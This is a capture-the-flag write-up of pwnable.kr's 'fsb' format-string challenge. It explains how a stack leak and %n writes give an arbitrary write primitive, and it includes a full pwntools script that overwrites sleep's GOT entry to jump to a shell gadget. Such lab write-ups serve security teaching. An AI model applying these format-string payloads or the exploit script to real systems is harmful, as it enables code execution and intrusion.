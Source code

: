 
# FSB

fsb, is a `format string` vulnerability challenge.
We get the source code in the challenge so thats nice!

The vulnerable part is here:

![[vulnerable_part.png]]

And they give us four runs which is awesome!
also, they are offering a gadget for us!
![[win_gadget.png]]

Sounds like an easy problem!
first lets see the stack, we will submit a lot of `%p ` 
![[stack_leak.png]]

if we take a close look on the addresses, it seems like there are some addresses in the stack, which points to another address in the stack.
I tried to play with this a bit and got to conclusion we can use the 14'th address!
I tried using gdb.

![[set_address_gdb.png]]
![[apear_in_stack.png]]
And we succeed!
Why is it good for us?
since there are more then one run, we can first use this primitive in order to put address on the stack, and then use the same primitive to override the address
which mean we got arbitrary write!
```python
b"%" + addr + "c%14$n"
```
This format, will make the `addr` apear in the stack.
we are using `%{number}c` in order to print `{number}` charecters from the stack,
then doing `%14$` in order to use the 14'th element from the stack, and `%n` to write to that element, the number of characters printed, in other word `addr`

Which address we want to override?
U can probably just override the key to known value and submit the value, and get a shell. But it less cool, and can lead to mistakes, lets just make us jump to the shell!

using objdump, we can identify the `got` address of `sleep` 

![[got_sleep.png]]
Now we can put this address on the stack, and then override it with the address of the gadget!

So we will make the got sleep address, apear using override the 14'th element, then with the same method override the 20'th element:
```python
#!/usr/bin/python3

from pwn import *

e = ELF("./fsb")

sleep_addr = e.sym["got.sleep"]
shell_addr = 0x0804869f

s = ssh(host="pwnable.kr", port=2222, user="fsb", password="guest")
p = s.process(["/home/fsb/fsb"])

p.recvuntil(b"(1)")
p.sendline(b"a")
p.recvuntil(b"(2)")
p.sendline(b"a")


p.recvuntil("(3)")

f1 = b"%" + str(sleep_addr-2).encode() + b"czz%14$n"
print(f1)
p.sendline(f1)
p.recvuntil(b"zz")

f2 = b"%" + str(shell_addr-2).encode() + b"czz%20$n"
print(f2)
p.sendline(f2)
p.recvuntil(b"zz")

p.interactive()
```

![[win_img.png]]